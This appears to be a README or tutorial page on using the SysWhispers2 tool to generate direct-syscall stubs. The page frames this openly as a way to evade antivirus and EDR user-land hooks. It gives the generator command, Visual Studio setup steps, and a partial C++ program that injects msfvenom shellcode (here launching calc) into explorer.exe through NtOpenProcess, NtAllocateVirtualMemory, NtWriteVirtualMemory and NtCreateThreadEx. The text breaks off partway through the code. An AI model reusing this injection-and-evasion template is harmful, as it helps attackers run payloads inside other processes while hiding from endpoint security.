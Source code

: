 ## SysWhisper2

If you've been into AV/EDR evasion, I'm sure you're aware that using **syscalls** is a well-known method to bypass detection controls (such as "User-land Hooking") by jumping into kernel-mode. And if you heard about **syscalls**, most likely you're familiar with the tool [jthuraisamy/SysWhispers2](https://github.com/jthuraisamy/SysWhispers2).

To use the tool, just run the python script `syswhispers.py` with the "**Nt\***" functions you want to use to generate the required files. For example:
```bash
$ python3 syswhispers.py -f NtOpenProcess,NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx,NtClose -o syscalls

                  .                         ,--.
,-. . . ,-. . , , |-. o ,-. ,-. ,-. ,-. ,-.    /
`-. | | `-. |/|/  | | | `-. | | |-' |   `-. ,-'
`-' `-| `-' ' '   ' ' ' `-' |-' `-' '   `-' `---
     /|                     |  @Jackson_T
    `-'                     '  @modexpblog, 2021

SysWhispers2: Why call the kernel when you can whisper?

Complete! Files written to:
        syscalls.h
        syscalls.c
        syscallsstubs.asm
```

Then do the following:

1. Copy the generated H/C/ASM files into the project folder.
2. In Visual Studio, go to Project → Build Customizations... and enable MASM.
3. In the Solution Explorer, add the .h and .c/.asm files to the project as header and source files, respectively.
4. Go to the properties of the ASM file, and set the Item Type to Microsoft Macro Assembler.
5. Ensure that the project platform is set to x64. 32-bit projects are not supported at this time.

The "**Nt\***" functions can now be used. For example:
```cpp
#include <Windows.h>
#include "lib/syscalls.h"

int main(int argc, char* argv[])
{
	// PID of explorer.exe
	DWORD pid = 11256;

	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T shellcodeSize = sizeof(shellcode);

	HANDLE hProcess;
	OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes) };
	CLIENT_ID clientId = { (HANDLE)pid, NULL };
```